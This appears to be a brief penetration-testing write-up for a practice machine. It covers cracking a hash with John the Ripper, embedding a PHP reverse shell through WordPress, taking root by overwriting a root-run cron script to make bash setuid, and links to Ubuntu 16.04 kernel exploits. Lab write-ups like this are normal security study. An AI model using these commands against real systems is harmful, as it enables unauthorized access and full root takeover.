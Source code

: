 
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

> john:incorrect

## WordPress



<figure><img src="../.gitbook/assets/Pasted image 20231020184147.png" alt=""><figcaption></figcaption></figure>

{% embed url="https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php" %}

## PrivEsc

### cron

```txt
*/5 *   * * *   root  /usr/local/sbin/cron-logrotate.sh
```

```bash
echo 'chmod 4777 /bin/bash' > /usr/local/sbin/cron-logrotate.sh
bash -p
```

### kernel

Linux Kernel 4.4.0-21 (Ubuntu 16.04 x64) - Netfilter 'target\_offset' Out-of-Bounds Privilege Escalation

[4.4.0-21-generic](https://www.exploit-db.com/exploits/40049)

Linux Kernel 4.4.x (Ubuntu 16.04) - 'double-fdput()' bpf(BPF\_PROG\_LOAD) Privilege Escalation

[https://www.exploit-db.com/exploits/39772](https://www.exploit-db.com/exploits/39772)

